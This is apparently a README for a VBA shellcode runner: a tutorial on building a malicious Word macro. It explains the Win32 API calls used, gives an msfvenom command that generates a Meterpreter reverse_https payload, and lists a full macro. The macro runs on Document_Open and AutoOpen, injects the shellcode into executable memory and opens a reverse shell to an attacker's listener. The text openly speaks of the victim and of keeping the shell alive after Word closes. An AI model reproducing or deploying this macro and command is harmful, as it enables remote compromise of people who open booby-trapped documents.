 # VBA-Shellcode-Runner:

Calling Win32 APIs from VBA:

Windows operating system APIs (or Win32 APIs) are located in dynamic link libraries and run as unmanaged code. We'll use the Declare keyword to link to these APIs in VBA, providing the name of the function, the DLL it resides in, the argument types, and return value types. We will use a Private Declare, meaning that this function will only be used in our local code.
The typical approach is to use three Win32 APIs from Kernel32.dll: VirtualAlloc, RtlMoveMemory, and CreateThread. For function prototype we can refer https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex


We will use VirtualAlloc to allocate unmanaged memory that is writable, readable, and executable. We'll then copy the shellcode into the newly allocated memory with RtlMoveMemory, and create a new execution thread in the process through CreateThread to execute the shellcode. 

Allocating memory through other Win32 APIs returns non-executable memory due to the memory protection called Data Execution Prevention (DEP)

In order to generate the shellcode, we need to know the target architecture. Obviously we are targeting a 64-bit Windows machine, but Microsoft Word 2016 installs as 32-bit by default, so we will generate 32-bit shellcode.

    msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f vbapplication 
  
  (Since we will be executing our shellcode inside the Word application, we specify the EXITFUNC with a value of "thread" instead of the default value of "process" to avoid closing Microsoft Word when the shellcode exits.)


In summary, we begin by declaring functions for the three Win32 APIs. Then we declare five variables, including a variable for our Meterpreter array and use VirtualAlloc to create some space for our shellcode. Next, we use RtlMoveMemory to put our code in memory with the help of a For loop. Finally, we use CreateThread to execute our shellcode. When executed, our shellcode runner calls back to the Meterpreter listener and opens the reverse shell as expected, entirely in memory.

To work as expected, this requires a matching 32-bit multi/handler in Metasploit with the EXITFUNC set to "thread" and matching IP and port number.

the primary disadvantage is that when the victim closes Word, our shell will die. so we need to incorporate Process Injection/Migration techniques. Metasploit's AutoMigrate module solves this. 

Code: 
        
        Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
        
        Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
        
        Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
        
        Function MyMacro()
            Dim buf As Variant
            Dim addr As LongPtr
            Dim counter As Long
            Dim data As Long
            Dim res As Long
            
            buf = Array(252, 232, 143, 0, 0, 0, 96, .......<generated shell code> )
        
            addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
            
            For counter = LBound(buf) To UBound(buf)
                data = buf(counter)
                res = RtlMoveMemory(addr + counter, data, 1)
            Next counter
            
            res = CreateThread(0, 0, addr, 0, 0, 0)
        End Function
        
        Sub Document_Open()
            MyMacro
        End Sub
        
        Sub AutoOpen()
            MyMacro
        End Sub
        

